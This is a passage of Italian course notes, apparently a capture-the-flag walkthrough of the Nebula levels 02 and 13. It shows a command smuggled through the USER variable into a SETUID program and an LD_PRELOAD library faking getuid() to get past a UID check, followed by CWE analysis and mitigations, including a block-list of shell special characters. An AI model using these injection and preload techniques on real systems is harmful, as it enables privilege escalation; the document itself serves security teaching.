Autenticarsi come level02 è facilissimo(abbiamo la password). Eseguire il comando \texttt{/home/flag02/flag02} è facilissimo (abbiamo i permessi). L'ostacolo da superare è quello di trovare un modo di inoculare \texttt{/bin/getflag} in
\texttt{/home/flag02/flag02}. Analizziamo il file sorgente dell'eseguibile
\texttt{/home/flag02/flag02}. Le operazioni svolte da level2.c sono le
seguenti:
\begin{itemize}
    \item Imposta tutti gli user ID al valore effettivo
(elevazione dell'utente al valore associato a flag02)
    \item Imposta tutti i group ID al valore effettivo
(elevazione del gruppo al valore associato a
level02)
    \item Alloca un buffer e ci scrive dentro alcune cose, tra
cui il valore di una variabile di ambiente (\texttt{USER})
    \item Stampa una stringa e il contenuto del buffer
    \item Esegue il comando contenuto nel buffer tramite
la funzione \texttt{system}
\end{itemize}
La funzione di libreria \texttt{asprintf()} alloca un buffer di lunghezza adeguata, ci copia dentro una stringa, utilizzando la
funzione \texttt{sprintf()} e restituisce il numero di caratteri copiati (e -1 in caso di errore). Vediamo i dettagli dei comandi con \texttt{man 3 asprintf} e \texttt{man 3 sprintf}. Nel sorgente  non è possibile usare
l'iniezione di comandi tramite \texttt{PATH}. Al contrario di quanto accadeva in \texttt{level1.c},
in \texttt{level2.c} il path del comando è scritto
esplicitamente: \texttt{bin/echo}. 

Vediamo se è possibile l'iniezione diretta di comandi nel buffer. Nel file sorgente la stringa \texttt{buffer} riceve il valore da una variabile di ambiente \texttt{USER}: tale valore viene prelevato mediante la funzione \texttt{getenv("USER")}. Quindi, modificando \texttt{USER} si dovrebbe poter modificare \texttt{buffer}. Vediamo che tipo di modifica possiamo attuare per vincere la sfida. Le sezioni NOTES e BUGS della pagina di manuale di \texttt{sprintf()} citano diverse tecniche di attacco possibili sul buffer:
\begin{itemize}
    \item overflow di una stringa con potenziale esecuzione di codice arbitrario e/o corruzione di memoria (buffer overflow attack)
    \item lettura della memoria via stringa di formato \texttt{\%n} (format string attack). 
\end{itemize}
Tali attacchi potrebbero essere usati per inoculare \texttt{/bin/getflag} in \texttt{home/flag02/flag02}. 

I due attacchi citati sono più complessi rispetto all'iniezione standard: difficilmente un utente alle prime armi riesce a portarli in porto, quindi al momento li ignoreremo. Ricordiamo che il nostro obiettivo è quello di iniettare codice arbitrario in una stringa di comando bash. In bash è possibile concatenare due comandi con il carattere separatore \texttt{;}. Possiamo usare la variabile di ambiente \texttt{USER} per iniettare un comando qualsiasi:
\begin{center}
    \texttt{USER='level02; /usr/bin/id'}
\end{center}

Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.8.png}
\end{figure}
\FloatBarrier

Autentichiamoci come utente level02, impostiamo la variabile di ambiente \texttt{USER} al
valore suggerito in precedenza: \texttt{USER='level02; /usr/bin/id'}. Eseguiamo \texttt{/home/flag02/flag02}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag02/flag02
about to call system("/bin/echo level02; /usr/bin/id is cool")
/usr/bin/id is cool
\end{lstlisting}
\end{mdframed}
La funzione \texttt{system()} esegue alla lettera il comando che gli viene passato. L'errore risiede nei parametri extra passati volontariamente a \texttt{/usr/bin/id}, che non possono essere cancellati direttamente. Vanno quindi annullati in qualche modo. In bash è possibile commentare il resto di una riga con il cancelletto \texttt{\#}. Possiamo inserire un carattere di commento dopo \texttt{/usr/bin/id} per annullare gli argomenti extra. Autentichiamoci allora come utente level02, impostiamo la variabile di ambiente \texttt{USER} al
valore suggerito in precedenza: \texttt{USER='level02; /usr/bin/id \#'}. Eseguiamo \texttt{/home/flag02/flag02}:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag02/flag02
about to call system("/bin/echo level02; /usr/bin/id # is cool")
level02
uid=997(flag02) gid=1003(level02) groups=997(flag02), 1003(level02)
\end{lstlisting}
\end{mdframed}
Vediamo che \texttt{/usr/bin/id} viene eseguito correttamente, quindi ci basta sostituirlo con \texttt{/bin/getflag}. Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.9.png}
\end{figure}
\FloatBarrier

Come già detto, ha senso provare i comandi al
terminale solo dopo aver popolato un albero di attacco e aver individuato una serie di percorsi dai nodi
foglia al nodo radice. Grazie all'albero di attacco, la procedura di verifica dell'attacco diventa banale:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag02/flag02
about to call system("/bin/echo level02; /bin/getflag # is cool")
level02
You have successfully executed getflag on a target account
\end{lstlisting}
\end{mdframed}

\subsubsection{La vulnerabilità}

La vulnerabilità presente in \texttt{level2.c} si verifica solo se tre diverse debolezze sono presenti e sfruttate contemporaneamente. Le prime due debolezze sono già note (assegnazione di privilegi non minimi al file binario, utilizzo di una versione di bash che non effettua l'abbassamento dei privilegi). La terza debolezza è la \textbf{CWE-77 - Improper Neutralization of Special Elements used in a Command (Command Injection)}: se un input esterno non neutralizza i caratteri speciali, è possibile iniettare nuovi caratteri in cascata ai precedenti.

\subsection{Mitigazione 1}
Un'analisi dettagliata di CWE-77 suggerisce di evitare di utilizzare comandi esterni e sfruttare piuttosto funzioni di sistema. Modifichiamo il sorgente \texttt{level2.c} in modo da ottenere l'username corrente tramite funzioni di libreria o di sistema. Invocando \texttt{apropos username} scopriamo l'esistenza della funzione di libreria \texttt{getlogin()}, che probabilmente fa le stesse cose di \texttt{getenv("USER")}: restituisce il puntatore a una stringa contenente il nome dell'utente attualmente connesso al terminale che ha lanciato il processo. In caso di errore restituisce un puntatore nullo e la causa dell'errore nella variabile \texttt{errno}. A questo punto ci basta inserire questa nuova funzione nel nuovo file sorgente \texttt{level2-getlogin.c}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level2-getlogin.c}
\begin{minted}[baselinestretch=1.0]{c}
...
char *username;
...
username = getlogin();

asprintf(&buffer, "/bin/echo %s is cool", username);
printf("about to call system(\"%s\")\n", buffer);

system(buffer);
\end{minted}
\end{mdframed}
Compiliamo \texttt{level2-getlogin.c}:
\begin{center}
    \texttt{gcc –o flag02-getlogin level2-getlogin.c}
\end{center}
Impostiamo i privilegi su \texttt{flag02-getlogin}:
\begin{center}
    \texttt{chown flag02:level02 /path/to/flag02-getlogin}
    
    \texttt{chmod 4750\footnote{corrisponde a \texttt{rwsr-x---}} /path/to/flag02-getlogin}
\end{center}
Impostiamo la variabile \texttt{USER} ed eseguiamo \texttt{flag02-getlogin}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ USER='level02; /bin/getflag #'
$ ./flag02-getlogin
about to call system("/bin/echo level02 is cool")
level02 is cool
\end{lstlisting}
\end{mdframed}

\subsection{Mitigazione 2}
Si possono ricercare in \texttt{buffer} i caratteri speciali di bash e provocare l'uscita con un errore in caso di presenza di almeno uno di essi. Siamo alla ricerca di una funzione che data una stringa \texttt{s1}, cerchi in essa una qualsiasi occorrenza di un carattere appartenente a una stringa \texttt{s2}. Vediamo se esiste tale funzione, dando il comando \texttt{apropos –s2, string search}. Scopriamo l'esistenza della funzione di libreria
\texttt{strpbrk()}, che restituisce il puntatore alla prima occorrenza in
una stringa \texttt{s} di un carattere contenuto nella
stringa \texttt{accept}. Se non esiste un tale carattere, restituisce un
puntatore nullo. Vediamo i dettagli del comando con
\texttt{man 3 strpbrk}. Il sorgente \texttt{level2-strpbrk.c} implementa
un meccanismo di recupero dello username
tramite \texttt{getenv(“USER”)}. Inoltre, utilizza la funzione \texttt{strpbrk()}
per ricercare caratteri non validi all'interno
del buffer. In presenza di caratteri non validi, provoca
l'uscita dal programma. Vediamo il codice sorgente:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level2-strpbrk.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
   char *buffer;
   const char invalid_chars[] = "!\"$&'()*,:;<=>?@[\\]^`{|}";
   gid_t gid;
   uid_t uid;
   
   gid = getegid();
   uid = geteuid();
   
   setresgid(gid, gid, gid);
   setresuid(uid, uid, uid);
   
   buffer = NULL;
   
   asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
   if ((strpbrk(buffer, invalid_chars)) != NULL) {
      perror("strpbrk");
      exit(EXIT_FAILURE);
   }
   printf("about to call system(\"%s\")\n", buffer);
   
   system(buffer);
}
\end{minted}
\end{mdframed}
Compiliamo \texttt{level2-strpbrk.c}:
\begin{center}
    \texttt{gcc –o flag02-strpbrk level2-strpbrk.c}
\end{center}
Impostiamo i privilegi corretti sul file
eseguibile \texttt{flag02-strpbrk}:
\begin{center}
    \texttt{chown flag02:level02 /path/to/flag02-strpbrk}
    
    \texttt{chmod 4750 /path/to/flag02-strpbrk}
\end{center}

Eseguiamo \texttt{flag02-strpbrk}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ USER='level02; /bin/getflag #'
$ ./flag02-strpbrk
strpbrk: Success
$
\end{lstlisting}
\end{mdframed}
Il carattere speciale \texttt{;} provoca l'uscita dal programma.

\section{Nebula Level 13}
\textit{"There is a security check that prevents the
program from continuing execution if the user
invoking it does not match a specific user id"}. Il programma in questione si chiama \texttt{level13.c} e il suo eseguibile ha il seguente percorso: \texttt{/home/flag13/flag13}. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level13.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp){
  int c;
   char token[256];
   if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n",
         getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
   }
   // snip, sorry :)
   printf("your token is %s\n", token);
}
\end{minted}
\end{mdframed}
Gli obiettivi della sfida sono recuperare la password (il token) dell'utente \texttt{flag13}, aggirando il controllo di sicurezza del programma \texttt{flag13}, poi l'autenticazione come utente \texttt{flag13} e l'esecuzione del programma \texttt{/bin/getflag} come utente \texttt{flag13}. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.10.png}
\end{figure}
\FloatBarrier

Come nelle sfide precedenti, l'ottenimento della password non è una strada percorribile, per cui bisogna ricorrere ad altre vie. Sappiamo che l'utente \texttt{level13} può accedere solamente alle directory \texttt{/home/level13} e \texttt{/home/flag13}. La prima cartella non sembra contenere informazioni interessanti, mentre \texttt{/home/flag13} contiene file di configurazione di bash e l'eseguibile \texttt{flag13}. Vedendo i premessi, scopriamo che il file \texttt{flag13} è di proprietà dell'utente \texttt{flag13} ed è eseguibile dagli utenti del gruppo \texttt{level13}, inoltre è SETUID.

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -la /home/flag13/flag13
-rwsr-x--- 1 flag13 level13 ... flag13
\end{lstlisting}
\end{mdframed}
Dato che abbamo il permesso di esecuzione, proviamo ad autenticarci come utente \texttt{level13} (username: \texttt{level13}, password: \texttt{level13}) ed eseguiamo il binario:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag13/flag13
Security failure detected.
UID 1014 started us, we expect 1000
The system administrator will be notified of this violation
\end{lstlisting}
\end{mdframed}
Le operazioni svolte da \texttt{level13.c} sono le seguenti:
\begin{itemize}
    \item controlla se l'UID è diverso da 1000: in tal caso stampa un messaggio di errore
    \item nella parte mancante viene creato in qualche modo il token di autenticazione per l'utente \texttt{flag13}
    \item infine il token viene stampato a video. 
\end{itemize}
Osserviamo che nessuno degli attacchi visti nelle lezioni precedenti è praticabile: il programma \texttt{level13.c} non sembra offrire occasione per iniezione tramite le variabili di ambiente \texttt{PATH} e \texttt{USER}. Ma esistono altre variabili d'ambiente che possiamo sfruttare? Leggendo la documentazione delle variabili d'ambiente con \texttt{man environ}, scopriamo che alcune variabili tra cui \texttt{LD\_LIBRARY\_PATH} e \texttt{LD\_PRELOAD} possono influenzare il comportamento del linker dinamico, ovvero parte del SO che carica e linka le librerie condivise necessarie a un eseguibile a runtime. Per maggiori informazioni basta invocare \texttt{apropos linker} che ci rimanda ad alcune pagine nella sezione 8: \texttt{ld-linux}, \texttt{ld-linux.so}, \texttt{ld.so}. Dalla pagina di manuale di quest'ultima, scopriamo che \texttt{LD\_PRELOAD} contiene un elenco di librerie condivise (shared object) separato da due punti (:). Tali librerie sono collegate prima di tutte le altre richieste durante l'esecuzione di un eseguibile. \texttt{LD\_PRELOAD} viene utilizzata per ridefinire dinamicamente alcune funzioni (function overriding) senza dover ricompilare i sorgenti. Per modificare un singolo comando è possibile utilizzare la seguente sintassi:
\begin{center}
    \texttt{LD\_PRELOAD=/path/to/lib.so <comando>}
\end{center}
Mentre per effettuare una modifica per una sessione di terminale si usa questa sintassi:
\begin{center}
    \texttt{export LD\_PRELOAD=/path/to/lib.so <comando1> <comando2>}
\end{center}
Possiamo usare la variabile \texttt{LD\_PRELOAD} per caricare in anticipo una libreria condivisa che implementa la funzione del controllo degli accessi del programma \texttt{/home/flag/flag13}, ossia reimposta \texttt{getuid()} per superare il controllo degli accessi. La libreria condivisa va ovviamente scritta da zero. Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.11.png}
\end{figure}
\FloatBarrier

Il file \texttt{getuid.c} contiene un'implementazione molto semplice della funzione \texttt{getuid()}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{minted}[baselinestretch=1.0]{c}
#include <unistd.h>
#include <sys/types.h>

uid_t getuid(void) {
   return 1000;
}
\end{minted}
\end{mdframed}
Creiamo questo file nella home di \texttt{level13}. Per generare la libreria condivisa, usiamo \texttt{gcc} con le opzioni seguenti:
\begin{itemize}
    \item \texttt{-shared} genera un oggetto linkabile a tempo di esecuzione e condivisibile con altri oggetti.
    \item \texttt{-fPIC} genera codice indipendente dalla posizione (Position Indipendent Code), rilocabile ad un indirizzo di memoria arbitrario.
\end{itemize}
\begin{center}
    \texttt{gcc -shared -fPIC -o getuid.so getuid.c}
\end{center}
Per carica anticipatamente la libreria condivisa \texttt{getuid.so} modifichiamo la variabile \texttt{LD\_PRELOAD}:
\begin{center}
    \texttt{export LD\_PRELOAD=./getuid.so}
\end{center}
Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.12.png}
\end{figure}
\FloatBarrier

Come consuetudine, proviamo concretamente l'attacco solo dopo aver popolato un albero di attacco e dopo aver individuato una serie di percorsi dai nodi foglia al nodo radice:
\begin{enumerate}
    \item Creazione di una libreria condivisa
    \item Impostazione caricamento anticipato
    \item Esecuzione di \texttt{/home/flag13/flag13}
\end{enumerate}
Tuttavia questa strategia è un fallimento: il meccanismo di iniezione della libreria sembra non aver funzionato, proviamo allora a rileggere la pagina di manuale \texttt{ld.so}. Alla voce \texttt{LD\_PRELOAD}, c'è il seguente testo:
\begin{center}
    \textit{“For SETUID/SETGID ELF binaries,
only libraries in the standard search directories
that are also SETGID will be loaded.”}
\end{center}
Quindi se l'eseguibile è SETUID, deve esserlo anche la libreria condivisa. Facendo diverse prova scopriamo che l'iniezione di una libreria condivisa funziona solo se il file binario e la libreria condivisa hanno lo stesso tipo di privilegi (quindi o sono entrambi SETUID o nessuno dei due lo è). Tuttavia se proviamo a impostare il bit SETUID per la libreria condivisa \texttt{getuid.so} tramite il comando \texttt{sudo chmod u+s getuid.so} otteniamo un errore. Tuttavia possiamo rimuovere il bit SETUID per il file binario \texttt{/home/flag13/flag13} con una semplice copia;

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ cp /home/flag13/flag13 /home/level13
$ ls -l /home/level13
-rwxr-x--- 1 level13 level13 ... flag13
\end{lstlisting}
\end{mdframed}

A questo punto possiamo aggiornare l'albero di attacco e provare la strategia:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.13.png}
\end{figure}
\FloatBarrier

\begin{enumerate}
    \item Copia di \texttt{/home/flag13/flag13}
    \item Creazione di una libreria condivisa
    \item Impostazione caricamento anticipato
    \item Ottenimento password utente \texttt{flag13}
    \item Autenticazione come utente \texttt{flag13}
    \item Esecuzione di \texttt{/home/flag13/flag13}
\end{enumerate}
Eseguiamo allora ciò che abbiamo preparato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ cp /home/flag13/flag13
$ gcc -shared -fPIC -o getuid.so getuid.c
$ export LD_PRELOAD=./getuid.so
$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
$ /bin/getflag
You have successfully executed getflag on a target account
$ 
\end{lstlisting}
\end{mdframed}

\subsection{La vulnerabilità}
La vulnerabilità presente in \texttt{level13.c} si verifica solo se diverse debolezze sono presenti e sfruttate contemporaneamente.

\subsubsection{Debolezza 1}
Manipolando una variabile di ambiente (\texttt{LD\_PRELOAD}) si sostituisce \texttt{getuid()} con una funzione che aggira il controllo di autenticazione. La CWE di riferimento è la \textbf{CWE-426 - Untrusted Search Path}.

\subsubsection{Debolezza 2}
C'è un bypass dell'autenticazione tramite spoofing: l'attaccante può riprodurre in proprio il token di autenticazione di un altro utente. La CWE di riferimento è la \textbf{CWE-90 - Authentication Bypass by Spoofing}

\subsection{Mitigazione 1}
Ha senso ripulire la variabile di ambiente \texttt{LD\_PRELOAD} allo stesso modo di come si è fatto per \texttt{PATH} nella sfida level01? No: \texttt{LD\_PRELOAD} agisce prima del caricamento del programma. Nel momento in cui il processo esegue \texttt{putenv()} su \texttt{LD\_PRELOAD}, la funzione \texttt{getuid()} è già stata iniettata da tempo. Per convincerci di quanto appena detto, impostiamo \texttt{LD\_PRELOAD} alla stringa vuota: modifichiamo \texttt{level13.c} effettuando la pulizia della variabile di ambiente \texttt{LD\_PRELOAD}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level13-env.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
   int c;
   char token[256];
   putenv("LD_PRELOAD=");
   if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", 
        getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
   }
   bzero(token, 256);
   strncpy(token, "b705702b-76a8-42b0-8844-3adabbe5ac58", 36);
   printf("your token is %s\n", token);
}
\end{minted}
\end{mdframed}
Compiliamo \texttt{level13-env.c}:
\begin{center}
    \texttt{gcc -o flag13-env level13-env.c}
\end{center}
Modifichiamo la variabile \texttt{LD\_PRELOAD}:
\begin{center}
    \texttt{export LD\_PRELOAD=/path/to/getuid.so}
\end{center}
Se eseguiamo \texttt{flag13-env} abbiamo che \texttt{getuid()} rimane iniettata.

\subsection{Mitigazione 2}
L'autenticazione proposta in \texttt{level13.c} è concettualmente errata, perché è basata su un singolo valore pubblicamente noto all'attaccante (UID=1000). Occorre usare più fattori di autenticazione, tra cui alcuni non ricavabili dagli attaccanti.


\let\cleardoublepage\clearpage